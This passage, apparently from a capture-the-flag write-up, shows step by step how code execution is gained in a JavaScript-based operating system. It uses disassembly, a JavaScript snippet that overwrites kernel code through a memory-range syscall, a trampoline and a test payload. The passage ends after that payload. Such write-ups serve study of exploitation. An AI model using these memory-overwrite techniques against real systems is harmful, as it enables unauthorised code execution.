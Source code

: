 Output:

```
 --- DEBUG --- 
STRING: af7367
```

Then I proceeded to dump 10 pages at a time starting at 0x2010000, disassembling, and
searching for `0xaf7367`, which led me to this blob at `0x211bb0`:

```
bb0:    bf 67 73 af 00          mov    edi,0xaf7367
bb5:    31 c0                   xor    eax,eax
bb7:    5b                      pop    rbx
bb8:    5d                      pop    rbp
bb9:    e9 32 f7 fe ff          jmp    0xffffffffffff02f0
```

To test if this was really it (the jump to `printf` is a little strange...) I overwrote
the `mov` to take `0xaf7368` (+1 from string) and changed the debug string:

```javascript
block = function(addr, len)
{
    return new Uint8Array(__SYSCALL.getSystemResources().memoryRange.block(addr, len).buffer())
}

dbg_str = 0xaf7367
s = block(dbg_str, 0x20)
s[0] = 0x41
s[1] = 0x42
s[2] = 0x43
s[3] = 0x44

c = block(0x211bb0, 0x20)
c[1] = 0x68
__SYSCALL.debug()
```

`BCD DEBUG --- ` success!!  

So to get code exec, we can just overwrite this code in debug and call `__SYSCALL.debug()`
to execute it. But there's no standard syscalls as far as we know, so it'd be best to
safely return to javascript context to be able to use `console.log` and stuff. So we
create a trampoline:

```
bb0:    b8 20 10 00 00          mov    eax,0x1020
bb5:    ff d0                   call   rax
bb7:    5b                      pop    rbx
bb8:    5d                      pop    rbp
bb9:    e9 32 f7 fe ff          jmp    0xffffffffffff02f0
```

Now we can map code at `0x1020`. I tried this first:

```
0:  48 b8 ef ee be ad de    movabs rax,0xdeadbeeeef
7:  00 00 00
a:  48 8b 00                mov    rax,QWORD PTR [rax]
d:  48 89 04 25 00 18 00    mov    QWORD PTR ds:0x1800,rax
14: 00
15: bf 67 73 af 00          mov    edi,0xaf7367
1a: 31 c0                   xor    eax,eax
1c: c3                      ret
```
